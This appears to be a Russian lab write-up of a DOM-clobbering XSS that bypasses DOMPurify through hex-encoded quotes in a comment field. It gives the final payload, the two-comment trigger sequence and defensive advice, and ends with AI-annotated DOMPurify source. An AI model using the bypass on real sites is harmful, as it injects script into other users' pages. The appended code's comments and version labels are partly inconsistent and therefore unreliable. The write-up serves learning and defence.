##  почему мои 1000шт предыдущих пэйлоадов не работали

### Официальный пэйлоад с сайта:

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:"onerror=alert(1)//">
```
Проблема - при сохранении в JSON кавычки экранируются:

```json
"body": "<a id=defaultAvatar><a id=defaultAvatar name=avatar href=\"cid:\"onerror=alert(1)//\">"
```
Браузер видит href="cid:" и onerror как текст вне атрибута.

### попытки внедрить в поле avatar

блокировались функцией escapeHTML, превращавшей кавычки в сущности

### а мои опытки внедрить в поле website

тоже блокировались , но валидацией протокола - сервер возвращал 400 Bad Request

## финальный пэйлоад


```html
<a id ='defaultAvatar'><a id ='defaultAvatar' name='avatar' href='cid:&#x22;&#x20;onerror=alert()&#x20;x=&#x22;'>
```

это hex-код двойной кавычки
DOMPurify и JSON пропускают его как текст
а вот в браузере он преобразуется обратно в символ "!!!!!!!!
Hex-код пробела, аналогично проходит все фильтры и становится пробелом в браузере

#### Как это выглядит после преобразования браузером:

```html
<a id='defaultAvatar'></a>
<a id='defaultAvatar' name='avatar' href='cid:" onerror=alert() x="'></a>
```

### процесс + логика атаки-=>

начнем с того, что библиотека + ее версия- тупо висела практически в коде сайта...
а далее просто ищем уязвимости по ней

проблема в том, что комменты подгружаются в сайт динамически, поэтому , тот js код там не срабатывал при открытии страницы, поэтому пришлось делать так: первый коммент - загружает пейлоад, второй обычный любой коммент вызвается срабатывание пейлоада, и тем самым, любой чел, что оставит коммент - получит выполнение моего js скрипта!

1. первый комментарий - отправляется пэйлоад, проходит DOMPurify, сохраняется в JSON
   
2. загрузка страницы - браузер преобразует сущности, создается DOM-коллекция window.defaultAvatar

3. второй комментарий - отправляется с пустым avatar и любым текстом
   
4. при загрузке для второго комментария используется defaultAvatar.avatar - подмененная строка
   
5. формируется HTML

    ```html
    
    ```
6. срабатывание- браузер пытается загрузить cid, получает ошибку, выполняет onerror
   

> Данные проходят несколько этапов обработки - санитизация, JSON-кодирование, вставка в DOM, парсинг браузером. Каждый этап можно использовать для обхода защиты

> HTML-сущности - мощный инструмент для протаскивания опасных символов мимо фильтров


## как защищаться!?

1 -первое и самое главное - перестать использовать глобальные переменные для критических вещей  
когда я писал let defaultAvatar = window.defaultAvatar || {...}, я создал уязвимость своими руками  

правильно делать так: const defaultAvatar = {...}, а window вообще не трогать  
если очень нужно прочитать значение из window, надо проверять его тип через typeof или instanceof, потому что clobbered объект всегда будет элементом DOM, а не строкой или объектом

2- использовать современные средства объявления переменных  
const и let создают переменные, которые не попадают в глобальный объект window  
а var как раз создает свойства на window, поэтому его лучше не использовать вообще  
и strict mode обязателен - он хотя бы ошибку выдаст при попытке перезаписать что-то важное

3 - третье - правильно настраивать DOMPurify  
в лабе он был включен с дефолтными настройками, а они не защищают от clobbering кастомных переменных  

нужно явно включать опцию SANITIZE_NAMED_PROPS: true  
тогда санитайзер будет переименовывать id и name атрибуты, добавляя к ним префикс типа user-content-  
и конечно версию надо держать актуальной, в новых уже много чего пофиксили

4 - четвертое - на уровне приложения можно заморозить критические объекты через Object.freeze  

-но это палка о двух концах - надо точно знать, что именно морозить  
и валидировать все, что приходит от пользователя, даже если это казалось бы безопасный HTML

5 - пятое - не хранить ничего важного в document и window  
эти объекты слишком легко подменяются браузером по своей природе,  
лучше использовать замыкания или модули, чтобы данные жили в своем изолированном пространстве

и- всегда думать о том, как этот код будут использовать  

-----------


---------
в самом низу тут - код той самой билблиотеки, что есть в лабе

я кинул код библиотеки в ии - чтобы тот разбил код на части - так гораздо удобне знакомиться
все - это ориг код из лабы

```js
/*! @license DOMPurify 
    (c) Cure53 and other contributors 
    Released under the Apache license 2.0 and Mozilla Public License 2.0 
    github.com/cure53/DOMPurify/blob/2.0.8/LICENSE 
*/

!function(e, t) {
    "object" == typeof exports && "undefined" != typeof module 
        ? module.exports = t() 
        : "function" == typeof define && define.amd 
            ? define(t) 
            : (e = e || self).DOMPurify = t()
}(this, (function() {
    "use strict";

    // ============================================
    // Базовые переменные и функции-хелперы
    // ============================================
    
    var e = Object.hasOwnProperty;
    var t = Object.setPrototypeOf;
    var n = Object.isFrozen;
    var r = Object.keys;
    var o = Object.freeze;
    var i = Object.seal;
    var a = Object.create;
    
    var l = "undefined" != typeof Reflect && Reflect;
    var c = l.apply;
    var s = l.construct;
    
    // ============================================
    // Полифиллы для Reflect
    // ============================================
    
    c || (c = function(e, t, n) {
        return e.apply(t, n)
    });
    
    o || (o = function(e) {
        return e
    });
    
    i || (i = function(e) {
        return e
    });
    
    s || (s = function(e, t) {
        return new(Function.prototype.bind.apply(e, [null].concat(
            function(e) {
                if (Array.isArray(e)) {
                    for (var t = 0, n = Array(e.length); t < e.length; t++) 
                        n[t] = e[t];
                    return n
                }
                return Array.from(e)
            }(t)
        )))
    });

    // ============================================
    // Обертки для методов массивов/строк
    // ============================================
    
    var u = k(Array.prototype.forEach);
    var d = k(Array.prototype.indexOf);
    var f = k(Array.prototype.join);
    var p = k(Array.prototype.pop);
    var m = k(Array.prototype.push);
    var y = k(Array.prototype.slice);
    var g = k(String.prototype.toLowerCase);
    var h = k(String.prototype.match);
    var v = k(String.prototype.replace);
    var b = k(String.prototype.indexOf);
    var T = k(String.prototype.trim);
    var A = k(RegExp.prototype.test);
    
    var x = L(RegExp);
    var S = L(TypeError);

    // ============================================
    // Вспомогательные функции
    // ============================================
    
    function k(e) {
        return function(t) {
            for (var n = arguments.length, r = Array(n > 1 ? n - 1 : 0), o = 1; o < n; o++)
                r[o - 1] = arguments[o];
            return c(e, t, r)
        }
    }

    function L(e) {
        return function() {
            for (var t = arguments.length, n = Array(t), r = 0; r < t; r++)
                n[r] = arguments[r];
            return s(e, n)
        }
    }

    function _(e, r) {
        t && t(e, null);
        for (var o = r.length; o--;) {
            var i = r[o];
            if ("string" == typeof i) {
                var a = g(i);
                a !== i && (n(r) || (r[o] = a), i = a)
            }
            e[i] = !0
        }
        return e
    }

    function E(t) {
        var n = a(null);
        var r = void 0;
        for (r in t) 
            c(e, t, [r]) && (n[r] = t[r]);
        return n
    }

    // ============================================
    // Списки разрешенных тегов и атрибутов
    // ============================================
    
    var M = o([
        // HTML элементы
        "a", "abbr", "acronym", "address", "area", "article", "aside", "audio", "b",
        "bdi", "bdo", "big", "blink", "blockquote", "body", "br", "button", "canvas",
        "caption", "center", "cite", "code", "col", "colgroup", "content", "data",
        "datalist", "dd", "decorator", "del", "details", "dfn", "dir", "div", "dl",
        "dt", "element", "em", "fieldset", "figcaption", "figure", "font", "footer",
        "form", "h1", "h2", "h3", "h4", "h5", "h6", "head", "header", "hgroup", "hr",
        "html", "i", "img", "input", "ins", "kbd", "label", "legend", "li", "main",
        "map", "mark", "marquee", "menu", "menuitem", "meter", "nav", "nobr", "ol",
        "optgroup", "option", "output", "p", "picture", "pre", "progress", "q", "rp",
        "rt", "ruby", "s", "samp", "section", "select", "shadow", "small", "source",
        "spacer", "span", "strike", "strong", "style", "sub", "summary", "sup",
        "table", "tbody", "td", "template", "textarea", "tfoot", "th", "thead",
        "time", "tr", "track", "tt", "u", "ul", "var", "video", "wbr"
    ]);

    var D = o([
        // SVG элементы
        "svg", "a", "altglyph", "altglyphdef", "altglyphitem", "animatecolor",
        "animatemotion", "animatetransform", "audio", "canvas", "circle", "clippath",
        "defs", "desc", "ellipse", "filter", "font", "g", "glyph", "glyphref", "hkern",
        "image", "line", "lineargradient", "marker", "mask", "metadata", "mpath",
        "path", "pattern", "polygon", "polyline", "radialgradient", "rect", "stop",
        "style", "switch", "symbol", "text", "textpath", "title", "tref", "tspan",
        "video", "view", "vkern"
    ]);

    var N = o([
        // SVG фильтры
        "feBlend", "feColorMatrix", "feComponentTransfer", "feComposite",
        "feConvolveMatrix", "feDiffuseLighting", "feDisplacementMap", "feDistantLight",
        "feFlood", "feFuncA", "feFuncB", "feFuncG", "feFuncR", "feGaussianBlur",
        "feMerge", "feMergeNode", "feMorphology", "feOffset", "fePointLight",
        "feSpecularLighting", "feSpotLight", "feTile", "feTurbulence"
    ]);

    var O = o([
        // MathML элементы
        "math", "menclose", "merror", "mfenced", "mfrac", "mglyph", "mi",
        "mlabeledtr", "mmultiscripts", "mn", "mo", "mover", "mpadded", "mphantom",
        "mroot", "mrow", "ms", "mspace", "msqrt", "mstyle", "msub", "msup", "msubsup",
        "mtable", "mtd", "mtext", "mtr", "munder", "munderover"
    ]);

    var R = o(["#text"]);

    // ============================================
    // Атрибуты (HTML, SVG, MathML, XLink)
    // ============================================
    
    var w = o([
        "accept", "action", "align", "alt", "autocapitalize", "autocomplete",
        "autopictureinpicture", "autoplay", "background", "bgcolor", "border",
        "capture", "cellpadding", "cellspacing", "checked", "cite", "class", "clear",
        "color", "cols", "colspan", "controls", "controlslist", "coords", "crossorigin",
        "datetime", "decoding", "default", "dir", "disabled", "disablepictureinpicture",
        "disableremoteplayback", "download", "draggable", "enctype", "enterkeyhint",
        "face", "for", "headers", "height", "hidden", "high", "href", "hreflang", "id",
        "inputmode", "integrity", "ismap", "kind", "label", "lang", "list", "loading",
        "loop", "low", "max", "maxlength", "media", "method", "min", "minlength",
        "multiple", "muted", "name", "noshade", "novalidate", "nowrap", "open",
        "optimum", "pattern", "placeholder", "playsinline", "poster", "preload",
        "pubdate", "radiogroup", "readonly", "rel", "required", "rev", "reversed",
        "role", "rows", "rowspan", "spellcheck", "scope", "selected", "shape", "size",
        "sizes", "span", "srclang", "start", "src", "srcset", "step", "style",
        "summary", "tabindex", "title", "translate", "type", "usemap", "valign",
        "value", "width", "xmlns"
    ]);

    var F = o([
        // SVG атрибуты
        "accent-height", "accumulate", "additive", "alignment-baseline", "ascent",
        "attributename", "attributetype", "azimuth", "basefrequency", "baseline-shift",
        "begin", "bias", "by", "class", "clip", "clippathunits", "clip-path",
        "clip-rule", "color", "color-interpolation", "color-interpolation-filters",
        "color-profile", "color-rendering", "cx", "cy", "d", "dx", "dy",
        "diffuseconstant", "direction", "display", "divisor", "dur", "edgemode",
        "elevation", "end", "fill", "fill-opacity", "fill-rule", "filter",
        "filterunits", "flood-color", "flood-opacity", "font-family", "font-size",
        "font-size-adjust", "font-stretch", "font-style", "font-variant", "font-weight",
        "fx", "fy", "g1", "g2", "glyph-name", "glyphref", "gradientunits",
        "gradienttransform", "height", "href", "id", "image-rendering", "in", "in2",
        "k", "k1", "k2", "k3", "k4", "kerning", "keypoints", "keysplines", "keytimes",
        "lang", "lengthadjust", "letter-spacing", "kernelmatrix", "kernelunitlength",
        "lighting-color", "local", "marker-end", "marker-mid", "marker-start",
        "markerheight", "markerunits", "markerwidth", "maskcontentunits", "maskunits",
        "max", "mask", "media", "method", "mode", "min", "name", "numoctaves", "offset",
        "operator", "opacity", "order", "orient", "orientation", "origin", "overflow",
        "paint-order", "path", "pathlength", "patterncontentunits", "patterntransform",
        "patternunits", "points", "preservealpha", "preserveaspectratio",
        "primitiveunits", "r", "rx", "ry", "radius", "refx", "refy", "repeatcount",
        "repeatdur", "restart", "result", "rotate", "scale", "seed",
        "shape-rendering", "specularconstant", "specularexponent", "spreadmethod",
        "startoffset", "stddeviation", "stitchtiles", "stop-color", "stop-opacity",
        "stroke-dasharray", "stroke-dashoffset", "stroke-linecap", "stroke-linejoin",
        "stroke-miterlimit", "stroke-opacity", "stroke", "stroke-width", "style",
        "surfacescale", "systemlanguage", "tabindex", "targetx", "targety",
        "transform", "text-anchor", "text-decoration", "text-rendering", "textlength",
        "type", "u1", "u2", "unicode", "values", "viewbox", "visibility", "version",
        "vert-adv-y", "vert-origin-x", "vert-origin-y", "width", "word-spacing",
        "wrap", "writing-mode", "xchannelselector", "ychannelselector", "x", "x1",
        "x2", "xmlns", "y", "y1", "y2", "z", "zoomandpan"
    ]);

    var H = o([
        // MathML атрибуты
        "accent", "accentunder", "align", "bevelled", "close", "columnsalign",
        "columnlines", "columnspan", "denomalign", "depth", "dir", "display",
        "displaystyle", "encoding", "fence", "frame", "height", "href", "id",
        "largeop", "length", "linethickness", "lspace", "lquote", "mathbackground",
        "mathcolor", "mathsize", "mathvariant", "maxsize", "minsize", "movablelimits",
        "notation", "numalign", "open", "rowalign", "rowlines", "rowspacing",
        "rowspan", "rspace", "rquote", "scriptlevel", "scriptminsize",
        "scriptsizemultiplier", "selection", "separator", "separators", "stretchy",
        "subscriptshift", "supscriptshift", "symmetric", "voffset", "width", "xmlns"
    ]);

    var C = o([
        // XLink атрибуты
        "xlink:href", "xml:id", "xlink:title", "xml:space", "xmlns:xlink"
    ]);

    // ============================================
    // Регулярные выражения для проверок
    // ============================================
    
    var z = i(/\{\{[\s\S]*|[\s\S]*\}\}/gm);           // Мусор от шаблонизаторов
    var I = i(/<%[\s\S]*|[\s\S]*%>/gm);                // ERP теги
    var U = i(/^data-[\-\w.\u00B7-\uFFFF]/);            // data-* атрибуты
    var j = i(/^aria-[\-\w]+$/);                        // ARIA атрибуты
    var P = i(/^(?:(?:(?:f|ht)tps?|mailto|tel|callto|cid|xmpp):|[^a-z]|[a-z+.\-]+(?:[^a-z+.\-:]|$))/i);
    var G = i(/^(?:\w+script|data):/i);
    var W = i(/[\u0000-\u0020\u00A0\u1680\u180E\u2000-\u2029\u205F\u3000]/g);

    // ============================================
    // Вспомогательная функция для определения типа
    // ============================================
    
    var B = "function" == typeof Symbol && "symbol" == typeof Symbol.iterator 
        ? function(e) { return typeof e }
        : function(e) { 
            return e && "function" == typeof Symbol && e.constructor === Symbol && e !== Symbol.prototype 
                ? "symbol" 
                : typeof e 
        };

    function q(e) {
        if (Array.isArray(e)) {
            for (var t = 0, n = Array(e.length); t < e.length; t++) 
                n[t] = e[t];
            return n
        }
        return Array.from(e)
    }

    // ============================================
    // Работа с TrustedTypes
    // ============================================
    
    var K = function() {
        return "undefined" == typeof window ? null : window
    };

    var V = function(e, t) {
        if ("object" !== (void 0 === e ? "undefined" : B(e)) || "function" != typeof e.createPolicy)
            return null;
            
        var n = null;
        var r = "data-tt-policy-suffix";
        
        t.currentScript && t.currentScript.hasAttribute(r) && 
            (n = t.currentScript.getAttribute(r));
        
        var o = "dompurify" + (n ? "#" + n : "");
        
        try {
            return e.createPolicy(o, {
                createHTML: function(e) { return e }
            })
        } catch(e) {
            console.warn("TrustedTypes policy " + o + " could not be created.");
            return null
        }
    };

    // ============================================
    // Основная функция DOMPurify
    // ============================================
    
    return function e() {
        var t = arguments.length > 0 && void 0 !== arguments[0] 
            ? arguments[0] 
            : K();
            
        var n = function(t) {
            return e(t)
        };
        
        n.version = "2.0.15";
        n.removed = [];

        // ============================================
        // Проверка поддержки
        // ============================================
        
        if (!t || !t.document || 9 !== t.document.nodeType) {
            n.isSupported = !1;
            return n
        }

        var i = t.document;
        var a = !1;
        var l = t.document;
        var c = t.DocumentFragment;
        var s = t.HTMLTemplateElement;
        var k = t.Node;
        var L = t.NodeFilter;
        var Y = t.NamedNodeMap;
        var X = void 0 === Y ? t.NamedNodeMap || t.MozNamedAttrMap : Y;
        var $ = t.Text;
        var J = t.Comment;
        var Q = t.DOMParser;
        var Z = t.trustedTypes;

        // ============================================
        // Работа с template
        // ============================================
        
        if ("function" == typeof s) {
            var ee = l.createElement("template");
            ee.content && ee.content.ownerDocument && 
                (l = ee.content.ownerDocument)
        }

        var te = V(Z, i);
        var ne = te && He ? te.createHTML("") : "";
        var re = l;
        var oe = re.implementation;
        var ie = re.createNodeIterator;
        var ae = re.getElementsByTagName;
        var le = re.createDocumentFragment;
        var ce = i.importNode;
        var se = E(l).documentMode ? l.documentMode : {};
        var ue = {};

        n.isSupported = oe && void 0 !== oe.createHTMLDocument && 9 !== se;

        // ============================================
        // Настройки по умолчанию
        // ============================================
        
        var de = z;
        var fe = I;
        var pe = U;
        var me = j;
        var ye = G;
        var ge = W;
        var he = P;
        var ve = null;
        var be = _({}, [].concat(q(M), q(D), q(N), q(O), q(R)));
        var Te = null;
        var Ae = _({}, [].concat(q(w), q(F), q(H), q(C)));
        var xe = null;
        var Se = null;
        
        // Флаги конфигурации
        var ke = !0;    // ALLOW_ARIA_ATTR
        var Le = !0;    // ALLOW_DATA_ATTR
        var _e = !1;    // ALLOW_UNKNOWN_PROTOCOLS
        var Ee = !1;    // SAFE_FOR_JQUERY
        var Me = !1;    // SAFE_FOR_TEMPLATES
        var De = !1;    // WHOLE_DOCUMENT
        var Ne = !1;    // RETURN_DOM
        var Oe = !1;    // RETURN_DOM_FRAGMENT
        var Re = !1;    // RETURN_DOM_IMPORT
        var we = !1;    // RETURN_TRUSTED_TYPE
        var Fe = !1;    // FORCE_BODY
        var He = !1;    // KEEP_CONTENT
        var Ce = !0;    // SANITIZE_DOM
        var ze = !0;    // KEEP_CONTENT
        var Ie = !1;    // IN_PLACE
        
        var Ue = {};
        var je = _({}, [
            "annotation-xml", "audio", "colgroup", "desc", "foreignobject", "head",
            "iframe", "math", "mi", "mn", "mo", "ms", "mtext", "noembed", "noframes",
            "plaintext", "script", "style", "svg", "template", "thead", "title",
            "video", "xmp"
        ]);
        
        var Pe = null;
        var Ge = _({}, ["audio", "video", "img", "source", "image", "track"]);
        var We = null;
        var Be = _({}, [
            "alt", "class", "for", "id", "label", "name", "pattern", "placeholder",
            "summary", "title", "value", "style", "xmlns"
        ]);
        
        var qe = null;
        var Ke = l.createElement("form");

        // ============================================
        // Функция конфигурации
        // ============================================
        
        var Ve = function(e) {
            qe && qe === e || (
                e && "object" === (void 0 === e ? "undefined" : B(e)) || (e = {}),
                e = E(e),
                ve = "ALLOWED_TAGS" in e ? _({}, e.ALLOWED_TAGS) : be,
                Te = "ALLOWED_ATTR" in e ? _({}, e.ALLOWED_ATTR) : Ae,
                We = "ADD_URI_SAFE_ATTR" in e ? _(E(Be), e.ADD_URI_SAFE_ATTR) : Be,
                Pe = "ADD_DATA_URI_TAGS" in e ? _(E(Ge), e.ADD_DATA_URI_TAGS) : Ge,
                xe = "FORBID_TAGS" in e ? _({}, e.FORBID_TAGS) : {},
                Se = "FORBID_ATTR" in e ? _({}, e.FORBID_ATTR) : {},
                Ue = "USE_PROFILES" in e && e.USE_PROFILES,
                ke = !1 !== e.ALLOW_ARIA_ATTR,
                Le = !1 !== e.ALLOW_DATA_ATTR,
                _e = e.ALLOW_UNKNOWN_PROTOCOLS || !1,
                Ee = e.SAFE_FOR_JQUERY || !1,
                Me = e.SAFE_FOR_TEMPLATES || !1,
                De = e.WHOLE_DOCUMENT || !1,
                Re = e.RETURN_DOM || !1,
                we = e.RETURN_DOM_FRAGMENT || !1,
                Fe = e.RETURN_DOM_IMPORT || !1,
                He = e.RETURN_TRUSTED_TYPE || !1,
                Oe = e.FORCE_BODY || !1,
                Ce = !1 !== e.SANITIZE_DOM,
                ze = !1 !== e.KEEP_CONTENT,
                Ie = e.IN_PLACE || !1,
                he = e.ALLOWED_URI_REGEXP || he,
                
                Me && (Le = !1),
                we && (Re = !0),
                
                Ue && (
                    ve = _({}, [].concat(q(R))),
                    Te = [],
                    !0 === Ue.html && (_(ve, M), _(Te, w)),
                    !0 === Ue.svg && (_(ve, D), _(Te, F), _(Te, C)),
                    !0 === Ue.svgFilters && (_(ve, N), _(Te, F), _(Te, C)),
                    !0 === Ue.mathMl && (_(ve, O), _(Te, H), _(Te, C))
                ),
                
                e.ADD_TAGS && (ve === be && (ve = E(ve)), _(ve, e.ADD_TAGS)),
                e.ADD_ATTR && (Te === Ae && (Te = E(Te)), _(Te, e.ADD_ATTR)),
                e.ADD_URI_SAFE_ATTR && _(We, e.ADD_URI_SAFE_ATTR),
                ze && (ve["#text"] = !0),
                De && _(ve, ["html", "head", "body"]),
                ve.table && (_(ve, ["tbody"]), delete xe.tbody),
                o && o(e),
                qe = e
            )
        };

        // ============================================
        // Утилиты для удаления элементов
        // ============================================
        
        var Ye = function(e) {
            m(n.removed, { element: e });
            try {
                e.parentNode.removeChild(e)
            } catch(t) {
                e.outerHTML = ne
            }
        };

        var Xe = function(e, t) {
            try {
                m(n.removed, {
                    attribute: t.getAttributeNode(e),
                    from: t
                })
            } catch(e) {
                m(n.removed, {
                    attribute: null,
                    from: t
                })
            }
            t.removeAttribute(e)
        };

        // ============================================
        // Парсинг HTML
        // ============================================
        
        var $e = function(e) {
            var t = void 0;
            var n = void 0;
            
            if (Oe)
                e = "<remove></remove>" + e;
            else {
                var r = h(e, /^[\r\n\t ]+/);
                n = r && r[0]
            }
            
            var o = te ? te.createHTML(e) : e;
            
            try {
                t = (new Q).parseFromString(o, "text/html")
            } catch(e) {}
            
            if (a && _(xe, ["title"]), !t || !t.documentElement) {
                var i = (t = oe.createHTMLDocument("")).body;
                i.parentNode.removeChild(i.parentNode.firstElementChild);
                i.outerHTML = o
            }
            
            e && n && t.body.insertBefore(
                l.createTextNode(n),
                t.body.childNodes[0] || null
            );
            
            return ae.call(t, De ? "html" : "body")[0]
        };

        // ============================================
        // Проверка поддержки
        // ============================================
        
        n.isSupported && function() {
            try {
                var e = $e("<x/><title>&lt;/title&gt;&lt;img&gt;");
                A(/<\/title/, e.querySelector("title").innerHTML) && (a = !0)
            } catch(e) {}
        }();

        // ============================================
        // Навигация по DOM
        // ============================================
        
        var Je = function(e) {
            return ie.call(
                e.ownerDocument || e,
                e,
                L.SHOW_ELEMENT | L.SHOW_COMMENT | L.SHOW_TEXT,
                function() { return L.FILTER_ACCEPT },
                !1
            )
        };

        var Qe = function(e) {
            return !(e instanceof $ || e instanceof J) && 
                   !("string" == typeof e.nodeName && 
                     "string" == typeof e.textContent && 
                     "function" == typeof e.removeChild && 
                     e.attributes instanceof X && 
                     "function" == typeof e.removeAttribute && 
                     "function" == typeof e.setAttribute && 
                     "string" == typeof e.namespaceURI)
        };

        var Ze = function(e) {
            return "object" === (void 0 === k ? "undefined" : B(k)) 
                ? e instanceof k 
                : e && "object" === (void 0 === e ? "undefined" : B(e)) && 
                  "number" == typeof e.nodeType && 
                  "string" == typeof e.nodeName
        };

        // ============================================
        // Хуки
        // ============================================
        
        var et = function(e, t, r) {
            ue[e] && u(ue[e], function(e) {
                e.call(n, t, r, qe)
            })
        };

        // ============================================
        // Санитизация элементов
        // ============================================
        
        var tt = function(e) {
            var t = void 0;
            
            et("beforeSanitizeElements", e, null);
            
            if (Qe(e))
                return Ye(e), !0;
                
            if (h(e.nodeName, /[\u0080-\uFFFF]/))
                return Ye(e), !0;
                
            var r = g(e.nodeName);
            
            et("uponSanitizeElement", e, {
                tagName: r,
                allowedTags: ve
            });
            
            if (("svg" === r || "math" === r) && 0 !== e.querySelectorAll("p, br").length)
                return Ye(e), !0;
                
            if (!ve[r] || xe[r]) {
                if (ze && !je[r] && "function" == typeof e.insertAdjacentHTML) {
                    try {
                        var o = e.innerHTML;
                        e.insertAdjacentHTML("AfterEnd", te ? te.createHTML(o) : o)
                    } catch(e) {}
                }
                return Ye(e), !0
            }
            
            if (("noscript" === r && A(/<\/noscript/i, e.innerHTML)) || 
                ("noembed" === r && A(/<\/noembed/i, e.innerHTML))) {
                return Ye(e), !0
            }
            
            if (!Ee || Ze(e.firstElementChild) || 
                (Ze(e.content) && Ze(e.content.firstElementChild)) || 
                !A(/</g, e.textContent)) {
                // ничего не делаем
            } else {
                m(n.removed, { element: e.cloneNode() });
                e.innerHTML 
                    ? e.innerHTML = v(e.innerHTML, /</g, "&lt;") 
                    : e.innerHTML = v(e.textContent, /</g, "&lt;")
            }
            
            if (Me && 3 === e.nodeType) {
                t = e.textContent;
                t = v(t, de, " ");
                t = v(t, fe, " ");
                e.textContent !== t && (
                    m(n.removed, { element: e.cloneNode() }),
                    e.textContent = t
                )
            }
            
            et("afterSanitizeElements", e, null);
            return !1
        };

        // ============================================
        // Проверка атрибутов
        // ============================================
        
        var nt = function(e, t, n) {
            if (Ce && ("id" === t || "name" === t) && (n in l || n in Ke))
                return !1;
                
            if (Le && A(pe, t));
            else if (ke && A(me, t));
            else {
                if (!Te[t] || Se[t])
                    return !1;
                    
                if (We[t]);
                else if (A(he, v(n, ge, "")));
                else if (("src" !== t && "xlink:href" !== t && "href" !== t) || 
                         "script" === e || 
                         0 !== b(n, "data:") || 
                         !Pe[e]) {
                    if (_e && !A(ye, v(n, ge, "")));
                    else if (n)
                        return !1
                } else;
            }
            return !0
        };

        // ============================================
        // Санитизация атрибутов
        // ============================================
        
        var rt = function(e) {
            var t = void 0;
            var o = void 0;
            var i = void 0;
            var a = void 0;
            var l = void 0;
            
            et("beforeSanitizeAttributes", e, null);
            
            var c = e.attributes;
            
            if (c) {
                var s = {
                    attrName: "",
                    attrValue: "",
                    keepAttr: !0,
                    allowedAttributes: Te
                };
                
                for (l = c.length; l--;) {
                    var u = t = c[l];
                    var m = u.name;
                    var h = u.namespaceURI;
                    
                    o = T(t.value);
                    i = g(m);
                    
                    s.attrName = i;
                    s.attrValue = o;
                    s.keepAttr = !0;
                    s.forceKeepAttr = void 0;
                    
                    et("uponSanitizeAttribute", e, s);
                    o = s.attrValue;
                    
                    if (!s.forceKeepAttr) {
                        if ("name" === i && "IMG" === e.nodeName && c.id) {
                            a = c.id;
                            c = y(c, []);
                            Xe("id", e);
                            Xe(m, e);
                            d(c, a) > l && e.setAttribute("id", a.value)
                        } else {
                            if ("INPUT" === e.nodeName && "type" === i && 
                                "file" === o && s.keepAttr && (Te[i] || !Se[i])) {
                                continue
                            }
                            "id" === m && e.setAttribute(m, "");
                            Xe(m, e)
                        }
                        
                        if (s.keepAttr) {
                            if (Ee && A(/\/>/i, o)) {
                                Xe(m, e)
                            } else if (A(/svg|math/i, e.namespaceURI) && 
                                       A(x("</(" + f(r(je), "|") + ")", "i"), o)) {
                                Xe(m, e)
                            } else {
                                Me && (o = v(o, de, " "), o = v(o, fe, " "));
                                var b = e.nodeName.toLowerCase();
                                
                                if (nt(b, i, o)) {
                                    try {
                                        h 
                                            ? e.setAttributeNS(h, m, o) 
                                            : e.setAttribute(m, o);
                                        p(n.removed)
                                    } catch(e) {}
                                }
                            }
                        }
                    }
                }
                
                et("afterSanitizeAttributes", e, null)
            }
        };

        // ============================================
        // Санитизация Shadow DOM
        // ============================================
        
        var ot = function e(t) {
            var n = void 0;
            var r = Je(t);
            
            for (et("beforeSanitizeShadowDOM", t, null); n = r.nextNode();) {
                et("uponSanitizeShadowNode", n, null);
                
                if (!tt(n)) {
                    n.content instanceof c && e(n.content);
                    rt(n)
                }
            }
            
            et("afterSanitizeShadowDOM", t, null)
        };

        // ============================================
        // Основной метод sanitize
        // ============================================
        
        n.sanitize = function(e, r) {
            var o = void 0;
            var a = void 0;
            var l = void 0;
            var s = void 0;
            var u = void 0;
            
            if (e || (e = "\x3c!--\x3e"), "string" != typeof e && !Ze(e)) {
                if ("function" != typeof e.toString)
                    throw S("toString is not a function");
                if ("string" != typeof(e = e.toString()))
                    throw S("dirty is not a string, aborting")
            }
            
            if (!n.isSupported) {
                if ("object" === B(t.toStaticHTML) || "function" == typeof t.toStaticHTML) {
                    if ("string" == typeof e)
                        return t.toStaticHTML(e);
                    if (Ze(e))
                        return t.toStaticHTML(e.outerHTML)
                }
                return e
            }
            
            if (Ne || Ve(r), n.removed = [], "string" == typeof e && (Ie = !1), Ie) {
                // ничего не делаем
            } else if (e instanceof k) {
                1 === (a = (o = $e("\x3c!--\x3e")).ownerDocument.importNode(e, !0)).nodeType && 
                ("BODY" === a.nodeName || "HTML" === a.nodeName) 
                    ? o = a 
                    : o.appendChild(a)
            } else {
                if (!Re && !Me && !De && -1 === e.indexOf("<"))
                    return te && He ? te.createHTML(e) : e;
                    
                if (!(o = $e(e)))
                    return Re ? null : ne
            }
            
            o && Oe && Ye(o.firstChild);
            
            for (var d = Je(Ie ? e : o); l = d.nextNode();) {
                3 === l.nodeType && l === s || tt(l) || (
                    l.content instanceof c && ot(l.content),
                    rt(l),
                    s = l
                )
            }
            
            if (s = null, Ie)
                return e;
                
            if (Re) {
                if (we) {
                    for (u = le.call(o.ownerDocument); o.firstChild;)
                        u.appendChild(o.firstChild)
                } else {
                    u = o
                }
                
                return Fe && (u = ce.call(i, u, !0)), u
            }
            
            var f = De ? o.outerHTML : o.innerHTML;
            
            Me && (f = v(f, de, " "), f = v(f, fe, " "));
            
            return te && He ? te.createHTML(f) : f
        };

        // ============================================
        // Дополнительные методы API
        // ============================================
        
        n.setConfig = function(e) {
            Ve(e);
            Ne = !0
        };
        
        n.clearConfig = function() {
            qe = null;
            Ne = !1
        };
        
        n.isValidAttribute = function(e, t, n) {
            qe || Ve({});
            var r = g(e);
            var o = g(t);
            return nt(r, o, n)
        };
        
        n.addHook = function(e, t) {
            "function" == typeof t && (
                ue[e] = ue[e] || [],
                m(ue[e], t)
            )
        };
        
        n.removeHook = function(e) {
            ue[e] && p(ue[e])
        };
        
        n.removeHooks = function(e) {
            ue[e] && (ue[e] = [])
        };
        
        n.removeAllHooks = function() {
            ue = {}
        };
        
        return n
    }()
}));

//# sourceMappingURL=purify.min.js.map


```


